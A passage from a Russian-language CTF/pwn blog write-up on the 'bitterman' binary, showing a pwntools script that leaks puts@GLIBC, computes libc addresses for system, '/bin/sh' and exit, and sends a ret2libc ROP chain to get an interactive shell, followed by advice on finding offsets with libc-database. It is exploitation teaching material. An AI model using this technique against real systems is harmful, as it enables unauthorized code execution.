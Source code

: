 ```python
p.clean()
p.sendline(payload)
received = p.recvuntil('Case 3: Return-to-PLT')[:6].strip()
leaked_puts = u64(received.ljust(8, '\x00'))
log.success('(1-я фаза) Слитый адрес puts@GLIBC (./ret2plt): %s' % hex(leaked_puts))

puts_offset = 0x83cc0
libc_start = leaked_puts - puts_offset
log.success('(1-я фаза) Вычислен адрес __libc_start_main (libc): %s' % hex(libc_start))

system_offset = 0x52fd0
bin_sh_offset = 0x1afb84
exit_offset = 0x473c0

system_addr = libc_start + system_offset
log.success('(2-я фаза) Вычислен адрес system (libc): %s' % hex(system_addr))

bin_sh_addr = libc_start + bin_sh_offset
log.success('(2-я фаза) Вычислен адрес "/bin/sh" (libc): %s' % hex(bin_sh_addr))

exit_addr = libc_start + exit_offset
log.success('(2-я фаза) Вычислен адрес exit (libc): %s' % hex(exit_addr))

system_addr = p64(system_addr)
bin_sh_addr = p64(bin_sh_addr)
exit_addr = p64(exit_addr)

payload2 = junk + pop_rdi_gadget + bin_sh_addr + nop_gadget + system_addr + exit_addr

#p.recvuntil('Case 3: Return-to-PLT')
raw_input('[?] (2-я фаза) Отправляю пейлоад?')
p.clean()
p.sendline(payload2)

p.clean()
p.interactive()
```

Раз — и у нас уже есть шелл!

[![ret2plt-pwn.png]({{ "/img/pwn-kingdom/bitterman/ret2plt-pwn.png" | relative_url }})]({{ "/img/pwn-kingdom/bitterman/ret2plt-pwn.png" | relative_url }})
{: .center-image}

### Что если версия libc неизвестна?

Как быть, если бы у тебя не было доступа к используемой библиотеки libc? Как в этом случае узнать нужные смещения, ведь они различны для различных версий?

В этом случае спасет проект [libc-database](https://github.com/niklasb/libc-database), который аккумулирует все версии libc, и позволяет осуществлять по ним поиск. Можно загрузить и собрать базу локально, а можно воспользоваться [веб-версией](https://libc.blukat.me/) онлайн.


[//]: # (2019-10-23)